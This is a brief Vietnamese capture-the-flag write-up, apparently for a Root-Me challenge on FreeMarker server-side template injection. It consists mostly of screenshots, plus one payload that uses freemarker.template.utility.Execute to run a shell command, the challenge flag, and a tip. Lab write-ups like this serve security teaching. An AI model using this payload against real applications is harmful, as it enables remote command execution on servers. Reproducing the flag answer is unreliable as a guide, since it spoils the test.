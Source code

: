 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/a02875ed-01d2-4d5d-b739-40b8b4428a47)

Sử dụng ```<#assign exp="freemarker.template.utility.Execute"?new()>${exp("ls -al")}```

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/c47d4463-f084-4b3a-9fe2-847736311ff3)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/484880cb-7104-4ce5-8f86-9a5c47619832)

=> B3wareOfT3mplat3Inj3ction

Nhớ dùng inspector cho lẹ
